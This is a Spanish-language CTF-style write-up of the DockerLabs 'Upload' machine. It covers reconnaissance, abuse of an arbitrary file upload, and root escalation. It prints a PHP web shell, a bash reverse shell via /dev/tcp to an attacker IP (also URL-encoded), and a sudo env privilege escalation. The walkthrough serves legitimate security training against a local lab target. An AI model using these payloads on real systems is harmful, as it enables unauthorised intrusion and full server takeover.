 ```yaml
---
layout: post
title: Maquina Upload
subtitle: DockerLabs
header-img: img/in-post/2020-10-07/upload-dl.png
header-style: text
catalog: true
tags:
  -  DockerLabs
  -  Web Fuzzing
  -  Binarios UNIX
  -  Arbitrary File Upload
  -  Reverse Shell
---
```


#### **Información**
- **Máquina:** Upload
- **Creador:** El Pingüino de Mario
- **SO:** Linux
- **Dificultad:** Easy

#### **Configuración Entorno**
Lo primero que hacemos es descargarnos los archivos de dockerlabs de la maquina.
![Image 1](https://aanton94.github.io/blog/img/Upload/Img1.png)

Una vez descargado ejecutamos el siguiente script:
![Image 2](https://aanton94.github.io/blog/img/Upload/Img2.png)

**auto_deploy.sh:** este archivo se encarga de desplegar la máquina mediante docker y,
una vez presionamos `ctrl+c`{:.info} pasa a un proceso de borrado, todo automático, sin necesidad de ener conocimientos de docker.

**upload.tar:** contiene todo el contenido de la máquina docker; es el corazón, donde está la máquina víctima.

#### **Reconocimiento**
Lo primero que realizamos es lanzar un ping contra la IP de la maquina para comprobar que tenemos conectividad.
```bash
ping -c 1 172.17.0.2
```
![Image 3](https://aanton94.github.io/blog/img/Upload/Img3.png)

Podemos observar que el ttl es de 64, por tanto, omo norma general podemos afirmas que se trata de una maquina linux.

Una vez comprobada la conectividad, inciaremos un escaneo con nmap, para detectar puertos abiertos y lo almacenaremos en un fichero llamado scan, con el siguiente comando:

```bash
nmap -p- --open -sV -sC -sS --min-rate=5000 -vvv -n -Pn -oN scan
```
- **-p-** --> Busqueda de puertos abiertos
- **--open** --> Enumera los puertos abiertos
- **-sS** --> Es un modo de escaneo rapido
- **-sC** --> Que use un conjunto de scripts de reconocimiento
- **-sV** --> Que encuentre la version del servicio abirto
- **--min-rate=5000** --> Hace que el reconocimiento aun vaya mas rapido mandando no menos de 5000 paquetes
- **-n** --> No hace resolución DNS
- **-Pn** --> No hace ping
- **-vvv** --> Muestra en pantalla a medida que encuentra puertos (Verbose)

![Image 4](https://aanton94.github.io/blog/img/Upload/Img4.png)

Podemos observar que solo cuenta con el puerto 80 abierto, al acceder via web nos encontramos con lo siguiente:
![Image 5](https://aanton94.github.io/blog/img/Upload/Img5.png)

Nos encontramos con un campo que nos permite subir un archivo, por lo tanto, tratamos de subir un fichero de prueba:
![Image 6](https://aanton94.github.io/blog/img/Upload/Img6.png)

Recibimos un mensaje de que el archivo se ha subido correctamente. A continuación, realizaremos fuzzing de la web para poder localizar posibles directorios. Utilizaremos la herramienta de fuzzing `gobuster`{:.info} aunque podríamos utilizar cualquier otra de este estilo, para ello utilizaremos un diccionario de directorios comunes.

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20
```
![Image 7](https://aanton94.github.io/blog/img/Upload/Img7.png)

Al finalizar el fuzzing encontramos el directorio uploads, tratamos de acceder y podemos ver que en este directorio se almaceno el fichero que subimos anteriormente.
![Image 8](https://aanton94.github.io/blog/img/Upload/Img8.png)

Comprobamos que podemos abrir el fichero en el navegador.
![Image 9](https://aanton94.github.io/blog/img/Upload/Img9.png)

Por tanto, al tener una ruta donde podemos subir y abrir ficheros, intentaremos subir un fichero con codigo php malicioso para tratar de lograr ejecutar comandos de forma remota.

#### **Explotación**

Para la explotación vamos a crear un archivo php llamado cmd.php con el siguiente código:

```php
<?php
	system($_GET['cmd']);
?>
```

Este script PHP ejecuta un comando del sistema recibido a través de la variable GET llamada 'cmd'. Por lo tanto, puede ser una puerta de entrada para ejecutar comandos maliciosos si no se filtran adecuadamente las entradas del usuario.

Subimos el fichero cmd.php, nos dirigimos al directorio uploads y vemos que al leer el fichero el servidor ejecuta el codigo php, utilizamos la variable cmd definida en el script para ejecurar el comando `whoami`{:.info}.
![Image 10](https://aanton94.github.io/blog/img/Upload/Img10.png)

Y efectivamente, nos devuelve que es usuario es **www-data**, por lo tanto, confirmamos que tenemos ejecución remota de comandos, abusando de esta brecha de seguridad podemos intentar abrir una revese shell contra el servidor víctima.

Para ello pondremos nuestra maquina atacante en escucha por el puerto 4444 utilizando netcat:

```bash
nc -lvnp 4444
```
Y ejecutaremos una revese shell a través del script de php cmd.php subido anteriormente.

`http://172.17.0.2/uploads/cmd.php?cmd=bash -c "bash -i >& /dev/tcp/192.168.199.131/4444 0>&1"`{:.info}

Al ejecutarlo no nos funciona, por tanto, la volvemos a pasar, pero esta vez aplicando un URL Encode:

`http://172.17.0.2/uploads/cmd.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.199.131%2F4444%200%3E%261%22`{:.info}

Y recibimos la reverse shell en el puerto que teníamos en escucha.
![Image 11](https://aanton94.github.io/blog/img/Upload/Img11.png)

Una vez tenemos la revese shell es hora de realizar el tratamiento de la TTY, ya que nos facilitara el manejo al no matar la shell al ejecutar control+c, control+l, etc.

Para ello ejecutamos los siguientes comandos:

```bash
script /dev/null -c bash
ctrl+z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

Una vez realizado comenzaremos con la escalada de privilegios, lo primero que hacemos siempre es revisar que binarios puede ejecutar nuestro usuario como `root`{:.error}, para ello ejecutamos `sudo -l`{:.info}.
![Image 12](https://aanton94.github.io/blog/img/Upload/Img12.png)

Vemos que podemos ejecutar el binario `/usr/bin/env`{:.info} como usuario `root`{:.error}, sin necesidad de conocer su contraseña. Para explotarlo podemos utilizar la web [http://https://gtfobins.github.io/](http://https://gtfobins.github.io/) y buscar la forma de explotar dicho binario. En este caso simplemente tenemos que ejecutar `sudo env /bin/sh`{:.info}
![Image 13](https://aanton94.github.io/blog/img/Upload/Img13.png)

Y efectivamente, somo `root`{:.error}, por lo tanto, `¡¡¡maquina vulnerada!!!`{:.success} :smirk::smirk::smirk:

#### **Eliminación del entorno**

Para borrar la máquina solo debemos ir a la consola donde lo desplegamos y presionar `ctrl+c`{:.info} y eliminaría y borraría todo rastro de la máquina víctima en nuestro sistema LINUX.
![Image 14](https://aanton94.github.io/blog/img/Upload/Img14.png)

`¡¡¡Espero que os haya gustado y nos vemos en la próxima!!!`{:.success}
